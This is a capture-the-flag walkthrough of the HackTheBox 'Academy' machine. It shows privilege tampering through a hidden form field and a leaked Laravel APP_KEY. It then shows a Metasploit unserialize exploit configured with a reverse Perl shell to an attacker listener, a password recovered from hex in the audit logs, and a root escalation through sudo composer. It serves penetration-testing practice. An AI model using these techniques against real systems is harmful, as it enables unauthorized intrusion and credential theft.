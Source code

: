 ```yaml
---
title: HackTheBox - Academy
date: 2021-03-03 19:44:17 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Laravel, metasploit, CVE-2018-15133, CVE-2017-16894, reverse-shell, plain text password, Linux logging passwords, composer, GTFOBins, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/Academy.png
---
```


## Foothold

### Nmap Scan (open Ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oA Academy 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache httpd (port 80)

![Port 80](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/80.png)

Once we go to [http://10.10.10.215](http://10.10.10.215), we can see two links:

- [http://10.10.10.215/login.php](http://10.10.10.215/login.php)
- [http://10.10.10.215/register.php](http://10.10.10.215/register.php)

If we check the source-code of the register page, we can notice there is an input which is **hidden**:

![Role id](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/roleid.png)

If we set its value to 1, we can access to: [http://10.10.10.215/admin-page.php](http://10.10.10.215/admin-page.php)

Once we're logged in, we can see there is a sub-domain whcih is mentionned `dev-staging-01.academy.htb`:

![admin-page](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/admin-page.png)

We add these domains into our `/etc/hosts`:

![/etc/hosts](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/etc-hosts.png)

Then we access to the subdomain:

![subdomain](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/subdomain.png)

It seems to be a **Laravel** backend:

![laravel](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/laravel.png)

We can notice there are some sensible information like:

![APP_KEY](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/APP_KEY.png)


Using **metasploit**, we can gain a reverse shell to web server:

![msf](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/msf.png)

```bash
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
# Setting options
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options
...
   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.11      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

![reverse_shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/reverse_shell.png)

## User1: `cry0l1t3`

In the `/home` directory, we can see there are a bunch of users. One one them has a `user.txt` file: 

![cry0l1t3](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/cry0l1t3.png)

By doing some recursive research through files upon files we find this password: 

![password](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/dev_password.png)

It appears that it's the password of **cry0l1t3** user.

```bash
cry0l1t3@academy:/home/cry0l1t3:~$ cat user.txt
064f918982d32d8040efb7c1b66a486
```

## User2: `mrb3n`

**cry0l1t3** is part of the **adm** group.

Via `find` we can list all files that are owned by this group:

`find / -group adm -exec ls -la {} \; 2>/dev/null`

Most of them are in `/var/log`.

After reading about [linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/), I found this article "[Logging passwords on Linux](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)". Before continuing, I highly recommend that you read this article.

In `/var/log/audit/` directory, we can retrieve `mrb3n`'s password:

```bash
cry0l1t3@academy:/var/log/audit$ grep "data=" *  
audit.log.3:type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
...
cry0l1t3@academy:/var/log/audit$ echo 7375206D7262336E0A | xxd -r -p
su mrb3n
cry0l1t3@academy:/var/log/audit$ echo 6D7262336E5F41634064336D79210A | xxd -r -p
mrb3n_Ac@d3my!
```

## Root

Now that we have access to `mrb3n` account, let's do some enumeration and see what we can do with `sudo`:

![mrb3n](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/mrb3n.png)

`composer` is listed in [GTFOBins](https://gtfobins.github.io/gtfobins/composer/):

![gtfobins](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/gtfobins.png)

To perform a privesc, we can exploit it and then become `root`:

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/root.png)

___

## Useful links

- [Linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/)
- [Logging Passwords on Linux - `/var/log/audit/audit.log`](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)